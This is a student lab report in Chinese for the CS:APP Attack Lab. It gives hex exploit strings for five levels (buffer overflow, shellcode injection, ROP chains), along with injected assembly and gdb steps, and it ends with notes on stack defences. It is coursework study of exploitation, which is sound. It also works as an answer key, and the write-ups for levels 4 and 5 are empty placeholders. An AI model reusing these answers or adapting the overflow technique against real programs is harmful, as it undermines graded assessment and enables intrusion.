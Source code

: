 # ICSⅠ Lab3 报告

计算机科学与技术

19307130296

孙若诗

## 运行截图

* **level1**  
![avatar](level1.png)  
* **level2**  
![avatar](level2.png)
* **level3**
![avatar](level3.png)
* **level4**
![avatar](level4.png)
* **level5**
![avatar](level5.png)

## 字符答案

* **level1**  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
* **level2**
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
* **level3**
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
* **level4**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
* **level5**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

## 解题过程

* **level1**
阅读getbuf及touch1对应的汇编语句片段，即下图。
![avatar](touch1.png)
发现getbuf第一句申请了0x28即40个byte的栈空间，如果get的大小超过缓冲区，将产生溢出。
原本进入getbuf之前栈顶存储的应当是下一句执行语句的位置，则将溢出值设置为touch1开始位置4017c0，可以误导程序调用touch1。
因此答案字符串即为：任意40个byte来填满缓冲区（0a除外，因为它代表\n，会让程序误以为读入结束），后接c0 17 40 00 00 00 00 00，采取小端法。16进制数两个一组，恰好为1个byte；八组一行，整洁直观，便于检查。
使用cat level1.txt | ./hex2raw | ./ctarget -q验证答案正确。

* **level2**
阅读touch2，发现它要求调用前%rdi的值已经被赋为cookie。因此我们需要执行自己的代码，可以利用缓冲区注入。movq可以用于赋值，而pushq可以把touch2的首地址压入栈中，之后ret。则栈中从上到下（栈底到栈顶）的语句顺序为：ret-pushq-movq（此句位于%rsp地址），执行顺序为：赋值-压栈-返回-读栈顶开始执行touch2。
注入汇编代码如下：

```S
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

用gcc -c level.s和objdump -d level.o > level.d指令得到机器码，将它注入缓冲区开头。为了让程序从缓冲区开头开始执行，缓冲区后溢出处所放地址应当为%rsp的地址。用gdb在getbuf设置断点，查询出%rsp的地址，具体操作如下。
![avatar](rsp.png)
因此答案字符串为：注入代码机器码+仍旧补字符到40byte+%rsp首地址。

* **level3**
阅读touch3，发现要求传递的参数为字符串指针类型，这意味着我要预先找地方把字符串存下，再把地址传给%rdi。且hexmatch会随机修改栈，因此如果我们把字符串存在栈中touch3首地址之后的位置，调用touch3时这部分栈已经被执行并处于%rsp之下，hexmatch申请的新buf就可能覆盖这一段栈，字符串的内容可能会被改变。为了方便起见，（以及我并不需要顾虑我的行动如何破坏了之前的栈，只要正确执行完touch3就达到目的，所以可以不负责任地乱放），不妨就把它放到getbuf栈帧之前，即test栈帧。
有趣的是，我们注入的代码显然也会位于touch3之后，为什么不担心它被覆盖呢？这是由于这些代码被执行之后，我们的目的已经达到，寄存器已经被正确修改，所以即使它们被覆盖也无所谓；但是我们为%rdi传入的是字符串指针的地址，后续使用的具体值仍然要到原地址去查找，所以它被覆盖是我们不能接受的。
此外，我们还需要把八位的cookie按字符串格式翻译成16进制，man ascii指令可以调出ASCII码表，按位对照查找即可。
进入解题步骤，getbuf申请了0x28个byte，我们再向前推一个地址，即%rsp+0x30。首先用gdb语句查询出该地址：0x5561dca8，我们在%rsp地址之后继续溢出8个byte，将这个地址内容改为16进制字符串即可。
![avatar](brforebuf.png)
movq和pushq流程与level2类似，要注入的代码为：

```S
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

因此答案字符串即为：注入代码机器码+仍旧补字符到40byte+%rsp首地址+16进制字符串。

* **level4**
b

* **level5**
v

## 实验总结

1. 了解了程序在缓冲区溢出时存在的安全漏洞，栈随机化（PIE）和栈不可执行（NX）能够在一定程度上提供防护，但仍旧可以通过ROP方法绕过防护。Canary，即push被保存的寄存器后，push一个canary离开时检查是否被修改，能够提供更有效的保护。开始感觉安全攻防是很有意思的系统实践。
2. 对执行语句和变量地址在栈中的存储和使用顺序有了更清晰的认识。
3. 思考ROP方法中截取机器码的过程，只是在栈中加入了对应机器码的首地址，就可以执行对应命令。可见计算机能够自动识别机器码的开头，并猜测每个开头对应的机器码需要是唯一的，只有这样计算机才知道之后到哪里截止是一条完整的指令。这十分类似哈夫曼树的构造规则，开头互异是消除歧义的有效规定。
4. 有关实验过程中的更多文件和源代码，可查阅[lab3-attack](https://github.com/moyiii-ai/ICS-2020/tree/main/lab3-attack)。
